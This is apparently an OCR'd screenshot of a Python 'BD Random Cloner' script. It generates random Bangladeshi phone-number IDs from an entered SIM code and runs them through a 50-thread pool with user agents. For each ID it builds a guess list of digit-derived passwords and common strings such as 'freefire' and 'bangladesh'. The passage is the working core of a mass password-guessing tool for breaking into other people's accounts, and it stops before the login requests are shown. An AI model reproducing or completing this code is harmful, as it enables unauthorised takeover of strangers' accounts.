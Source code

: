 	if bal =='2':

		os.system('xdg-open https://github.com/S4MI-404');time.sleep(1)

		admin()

	if bal =='3':

		Main()

def x():

	user=[]

	os.system('clear')

	print(logo)

	print(" 𝐒𝐢𝐦 𝐜𝐨𝐝𝐞 𝐄𝐱𝐚𝐦𝐩𝐥𝐞 : 𝟎𝟏𝟔, 𝟎𝟏𝟕, 𝟎𝟏𝟖, 𝟎𝟏𝟗")

	kode = input(' [★] 𝐄𝐧𝐭𝐞𝐫 𝐬𝐢𝐦 𝐜𝐨𝐝𝐞: ')

	doamin = ' 𝐁𝐃 𝐑𝐚𝐧𝐝𝐨𝐦 𝐂𝐥𝐨𝐧𝐞𝐫 '

	limit = int(input('[?] 𝐇𝐨𝐰 𝐦𝐚𝐧𝐲 𝐧𝐮𝐦𝐛𝐞𝐫𝐬 𝐝𝐨 𝐲𝐨𝐮 𝐰𝐚𝐧𝐭 𝐭𝐨 𝐚𝐝𝐝 : '))

	for nmbr in range(limit):

		nmp = ''.join(random.choice(string.digits) for _ in range(11))

		user.append(nmp)

	with ThreadPool(max_workers=50) as yaari:

		os.system('clear')

		print(logo)

		tl = str(len(user))

		print(' \033[97;1m[🚀]  𝐓𝐨𝐭𝐚𝐥 𝐢𝐝𝐬  :\033[1;92m '+tl)

		print('\033[97;1m [🚀]  𝐔𝐬𝐚𝐫𝐚𝐠𝐞𝐧𝐭𝐬 : '+str(len(ugen)))

		print(f'\033[97;1m [🚀]\033[1;97m  𝐭𝐚𝐫𝐠𝐞𝐭 𝐬𝐢𝐦 𝐜𝐨𝐝𝐞 :\033[1;92m {kode} ')

		#print(f"\033[1;97m [🚀]  𝐂𝐡𝐨𝐢𝐜𝐞 :\033[1;92m {doamin}")

		print(' \033[1;97m[🚀]  𝐓𝐡𝐞 𝐩𝐫𝐨𝐜𝐞𝐬𝐬 𝐡𝐚𝐬 𝐛𝐞𝐞𝐧 𝐬𝐭𝐚𝐫𝐭𝐞𝐝')

		print(' [🚀]  𝐔𝐬𝐞 𝐇𝐞𝐥𝐢𝐜𝐨𝐩𝐭𝐞𝐫 𝐦𝐨𝐝𝐞 𝐢𝐟 𝐨𝐤 𝐢𝐝𝐬 😑 ')

		print(50*'_')

		for guru in user:

			uid = kode+guru

			ps1 = uid[6:]

			ps2 = uid[5:]

			ps3 = uid[4:]

			pwx = [uid,ps1,ps2,ps3,'freefire','bangladesh','freefire1122','Free Fire','freefire123']
